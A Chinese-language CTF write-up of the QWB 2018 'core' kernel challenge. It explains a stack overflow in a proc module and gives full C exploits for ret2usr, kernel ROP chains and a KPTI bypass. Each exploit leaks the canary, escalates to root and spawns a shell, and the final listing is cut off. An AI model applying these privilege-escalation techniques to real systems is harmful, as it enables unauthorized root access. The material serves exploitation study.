
# 参考
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x01-Kernel-ROP-basic](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x01-Kernel-ROP-basic)
[https://bbs.kanxue.com/thread-276403.htm#msg_header_h2_7](https://bbs.kanxue.com/thread-276403.htm#msg_header_h2_7)
[https://xz.aliyun.com/t/7625?time__1311=n4%2BxnD0G0%3DG%3Dn4Gwx05%2B4hri%3DdeY5GOKweD&alichlgref=https%3A%2F%2Fwww.google.com.hk%2F#toc-8](https://xz.aliyun.com/t/7625?time__1311=n4%2bxnD0G0=G=n4Gwx05%2b4hri=deY5GOKweD&alichlgref=https://www.google.com.hk/#toc-8)
[https://kiprey.github.io/2021/10/kernel_pwn_introduction/#5-kernel-%E7%9A%84-UAF-%E5%88%A9%E7%94%A8](https://kiprey.github.io/2021/10/kernel_pwn_introduction/#5-kernel-%E7%9A%84-UAF-%E5%88%A9%E7%94%A8)
[https://blog.csdn.net/qq_45323960/article/details/130660417?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522171982506416800211525431%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=171982506416800211525431&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-130660417-null-null.nonecase&utm_term=kernel&spm=1018.2226.3001.4450](https://blog.csdn.net/qq_45323960/article/details/130660417?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522171982506416800211525431%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=171982506416800211525431&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-130660417-null-null.nonecase&utm_term=kernel&spm=1018.2226.3001.4450)


#  qwb2018 core
# 检查


#  逆向
- 调用 proc_create 函数创建一个新的 proc 文件系统条目
- &core_fops 是指向 file_operations 结构体的指针，该结构体定义了 open、read、write 等文件操作函数。


core_copy_func 存在栈溢出：它可以把 63 字节的 name 复制到栈上的 v2 数组中


name 是内核数据，用户数据可以通过 core_write 复制进 name

# 调试
记得设置 root，否则什么都看不到

然后关闭 KASLR，方便下断点

查看模块相关的段以及内核中存在的符号函数




# 打包上传测试脚本

```bash
#!/bin/sh
gcc expolit.c -static -masm=intel -g -o expolit
mv expolit fs/
cd core
find . | cpio -o --format=newc > core.cpio
mv core.cpio ..
cd ..
./start.sh
```


未开启 SMAP/SMEP 时，可以用 ret2usr 从内核态直接访问并执行用户态代码。
PS：用 ret2usr 提权时，一定不要使用库函数（它们会触发系统调用，导致内核 panic）


# retuser
思路是：在内核态执行时，把一个用户程序的返回地址写入内核态栈，然后跳到用户代码，执行用户程序定义的函数，同时完成提权，并模拟返回用户态的过程
rip 是切换到内核态时最后压入的值；iretq 通过 pop 恢复寄存器，顺序从 rip 到 ss

返回地址变成了用户态代码，执行 `commit_creds(prepare_kernel_cred(0));`

切换到用户态


此次 iretq 时，栈上是前面设置好的结构

通过恢复 rip，执行跳到 getshell 函数

提权成功



` __attribute__((packed))` 是 GCC 编译器的扩展属性，告诉编译器在打包结构体成员时不要添加任何填充。通常，编译器会在结构体成员之间添加填充字节以保证数据对齐，这会增大结构体的大小。
使用 packed 属性可以确保 trap_frame 结构体在内存中紧凑排布，每个成员紧跟上一个成员，没有额外的填充。


1. **`#define KERNCALL __attribute__((regparm(3)))`**：
   - 这是一个宏定义：`KERNCALL` 使用 GCC 编译器的 `regparm` 属性来定义，该属性指定函数参数通过寄存器传递。
   - `regparm(3)` 表示函数的前三个参数通过寄存器而不是栈来传递。这有助于减少函数调用开销、提升性能。

2. **`void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xFFFFFFFF8109CCE0;`**：
   - 这一行定义了一个名为 `prepare_kernel_cred` 的函数指针，它指向一个接受一个 `void` 指针参数、返回一个 `void` 指针的函数。
   - `KERNCALL` 是上面定义的宏，指定函数的调用约定，即参数通过寄存器传递。
   - `= (void *) 0xFFFFFFFF8109CCE0;` 把 `prepare_kernel_cred` 指针初始化为一个特定的内存地址。这个地址是硬编码的，很可能指向负责准备（设置）用户凭证的内核函数。

3. **`void *(*commit_creds)(void *) KERNCALL = (void *) 0xFFFFFFFF8109C8E0;`**：
   - 这一行与上一行类似，定义了另一个函数指针 `commit_creds`，它同样指向一个接受并返回 `void` 指针的函数。
   - 它同样使用 `KERNCALL` 宏来指定函数的调用约定。
   - `= (void *) 0xFFFFFFFF8109C8E0;` 把 `commit_creds` 指针初始化为另一个特定的内存地址。这个地址指向负责提交（更改）当前任务凭证的内核函数。


```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define KERNCALL __attribute__((regparm(3)))

void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xFFFFFFFF8109CCE0;

void *(*commit_creds)(void *) KERNCALL = (void *) 0xFFFFFFFF8109C8E0;

void *init_cred = (void *) 0xFFFFFFFF8223D1A0;

void get_shell() { system("/bin/sh"); }


struct trap_frame {
    size_t user_rip;
    size_t user_cs;
    size_t user_rflags;
    size_t user_sp;
    size_t user_ss;
} __attribute__((packed));
struct trap_frame tf;
size_t user_cs, user_rflags, user_sp, user_ss, tf_addr = (size_t) &tf;

void save_status() {
    asm(
            "movq %%cs, %0\n\t"
            "movq %%ss, %1\n\t"
            "movq %%rsp, %2\n\t"
            "pushfq\n\t"
            "popq %3\n\t"
            : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
            :
            : "memory");
    tf.user_rip = (size_t) get_shell;
    tf.user_cs = user_cs;
    tf.user_rflags = user_rflags;
    tf.user_sp = user_sp - 0x1008;
    tf.user_ss = user_ss;
    puts("[*] status has been saved.");
}

void get_root() {
//    commit_creds(init_cred);
    commit_creds(prepare_kernel_cred(0));
    asm volatile (
        "swapgs;"             // 交换GS寄存器的基地址
        "movq %0, %%rsp;"     // 将tf_addr的值移动到栈指针
        "iretq;"               // 从中断或异常返回
        :: "r" (tf_addr)      // 输入操作数列表，tf_addr作为输入
        : "memory"            // 指示汇编代码可能修改内存
    );
}

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds = (void *) ((size_t) commit_creds + offset);
            prepare_kernel_cred = (void *) ((size_t) prepare_kernel_cred + offset);
            init_cred = (void *) ((size_t) init_cred + offset);
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    rebase();
    save_status();
    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }
    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);
    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;
    *(void **) &buf[80] = get_root;
    core_write(buf, sizeof(buf));
    core_copy_func(0xffffffffffff0000 | sizeof(buf));
    return 0;
}
```
通过溢出执行用户代码，实现提权并切换到用户态
# kernel rop
开启 SMEP 和 SMAP 后，内核空间无法执行用户空间的代码，也无法访问用户空间的数据或跳到用户空间的代码执行。
利用 ROP 在内核中执行 commit_creds(prepare_kernel_cred(0)) 完成提权，然后 iret 返回用户空间，执行 getshell 函数

## init_cred
可以找到 init_cred，直接把它作为 commit_creds 的参数，而不需要 prepare_creds


```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/ioctl.h>

size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rdx_ret = 0xffffffff810a0f49;
size_t pop_rcx_ret = 0xffffffff81021e53;
size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
size_t swapgs_popfq_ret = 0xffffffff81a012da;
size_t iretq = 0xffffffff81050ac2;

void get_shell() {
    system("/bin/sh");
}

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            pop_rdx_ret += offset;
            pop_rcx_ret += offset;
            mov_rdi_rax_call_rdx += offset;
            swapgs_popfq_ret += offset;
            iretq += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    save_status();
    rebase();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;

    size_t *rop = (size_t *) &buf[80], it = 0;


    rop[it++] = pop_rdi_ret;
    rop[it++] = init_cred;
    rop[it++] = commit_creds;
    rop[it++] = swapgs_popfq_ret;
    rop[it++] = 0;
    rop[it++] = iretq;
    rop[it++] = (size_t) get_shell;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;

    core_write(buf, sizeof(buf));

    core_copy_func(0xffffffffffff0000 | sizeof(buf));

    return 0;
}
```
##  commit_creds( prepare_kernel_cred(0) )
这里，`prepare_kernel_cred(0)` 执行完后需要一个 `mov rdi, rax; ret` 的 gadget，但没有合适的。按照 sky 的思路，使用 `pop rdx; ret; mov rdi,rax; call rdx`；pop 之后 rdx 中是 `pop rcx; ret`，所以 call rdx 实际上等价于一次 ret



```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/ioctl.h>

size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rdx_ret = 0xffffffff810a0f49;
size_t pop_rcx_ret = 0xffffffff81021e53;
size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
size_t swapgs_popfq_ret = 0xffffffff81a012da;
size_t iretq = 0xffffffff81050ac2;

void get_shell() {
    system("/bin/sh");
}

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int core_fd;

void coore_read(char *buf) {
    ioctl(core_fd, 0x6677889B, buf);
}

void set_off(size_t off) {
    ioctl(core_fd, 0x6677889C, off);
}

void core_copy_func(size_t len) {
    ioctl(core_fd, 0x6677889A, len);
}

void core_write(char *buf, size_t len) {
    write(core_fd, buf, len);
}

void rebase() {
    FILE *kallsyms_fd = fopen("/tmp/kallsyms", "r");
    if (kallsyms_fd < 0) {
        puts("[-] Failed to open kallsyms.\n");
        exit(-1);
    }
    char name[0x50], type[0x10];
    size_t addr;
    while (fscanf(kallsyms_fd, "%llx%s%s", &addr, type, name)) {
        size_t offset = -1;
        if (!strcmp(name, "commit_creds")) {
            offset = addr - (size_t) commit_creds;
        } else if (!strcmp(name, "prepare_kernel_cred")) {
            offset = addr - (size_t) prepare_kernel_cred;
        }
        if (offset != -1) {
            printf("[*] offset: %p\n", offset);
            commit_creds += offset;
            prepare_kernel_cred += offset;
            init_cred += offset;
            pop_rdi_ret += offset;
            pop_rdx_ret += offset;
            pop_rcx_ret += offset;
            mov_rdi_rax_call_rdx += offset;
            swapgs_popfq_ret += offset;
            iretq += offset;
            break;
        }
    }
    printf("[*] commit_creds: %p\n", (size_t) commit_creds);
    printf("[*] prepare_kernel_cred: %p\n", (size_t) prepare_kernel_cred);
}

size_t get_canary() {
    set_off(64);
    char buf[64];
    coore_read(buf);
    return *(size_t *) buf;
}

int main() {
    save_status();
    rebase();

    core_fd = open("/proc/core", O_RDWR);
    if (core_fd < 0) {
        puts("[-] Failed to open core.");
        exit(-1);
    }

    size_t canary = get_canary();
    printf("[*] canary: %p\n", canary);

    char buf[0x100];
    memset(buf, 'a', sizeof(buf));
    *(size_t *) &buf[64] = canary;

    size_t *rop = (size_t *) &buf[80], it = 0;

    rop[it++] = pop_rdi_ret;
    rop[it++] = 0;
    rop[it++] = prepare_kernel_cred;
    rop[it++] = pop_rdx_ret;
    rop[it++] = pop_rcx_ret;
    rop[it++] = mov_rdi_rax_call_rdx;
    rop[it++] = commit_creds;
    
    rop[it++] = swapgs_popfq_ret;
    rop[it++] = 0;
    rop[it++] = iretq;
    rop[it++] = (size_t) get_shell;
    rop[it++] = user_cs;
    rop[it++] = user_rflags;
    rop[it++] = user_sp;
    rop[it++] = user_ss;

    core_write(buf, sizeof(buf));

    core_copy_func(0xffffffffffff0000 | sizeof(buf));

    return 0;
}
```

## 用 swapgs_restore_regs_and_return_to_usermode 绕过 KPTI
[https://b0ldfrev.gitbook.io/note/linux_kernel/kernelpwn-zhuang-tai-qie-huan-yuan-li-ji-kpti-rao-guo](https://b0ldfrev.gitbook.io/note/linux_kernel/kernelpwn-zhuang-tai-qie-huan-yuan-li-ji-kpti-rao-guo)
把 CPU 类型改为 kvm64 后，就开启了 KPTI 保护。

在开启 KPTI 的内核上，如果提权返回用户态（iretq/sysret）之前没有设置好 CR3 寄存器的值，进程就找不到当前程序正确的页表，从而触发段错误，程序退出。


一种更省事的方法是用 `swapgs_restore_regs_and_return_to_usermode` 函数来返回：

可以用 `cat /proc/kallsyms| grep swapgs_restore_regs_and_return_to_usermode` 找到它的内核地址
 swapgs_restore_regs_and_return_to_usermode 的代码如下

跳过开头的 pop 指令同样可以返回用户态，即把程序流导向 mov rdi, rsp 指令；栈布局只需如下即可——具体原因可以调试查看
```c
rsp  ---->  mov_rdi_rsp
            0
            0
            rip
            cs
            rflags
            rsp
            ss
```



进入内核前的 CR3	

进入内核后的 CR3	

用户态代码开始执行时发生 page_fault


```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/ioctl.h>

size_t prepare_kernel_cred = 0xFFFFFFFF8109CCE0;
size_t commit_creds = 0xFFFFFFFF8109C8E0;
size_t init_cred = 0xFFFFFFFF8223D1A0;
size_t pop_rdi_ret = 0xffffffff81000b2f;
size_t pop_rdx_ret = 0xffffffff810a0f49;
size_t pop_rcx_ret = 0xffffffff81021e53;
size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81A008DA;

void get_shell() {
    system("/bin/sh");
}

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("[*] status has been saved.");
}

int core_fd;

void coore_read(char *buf) {
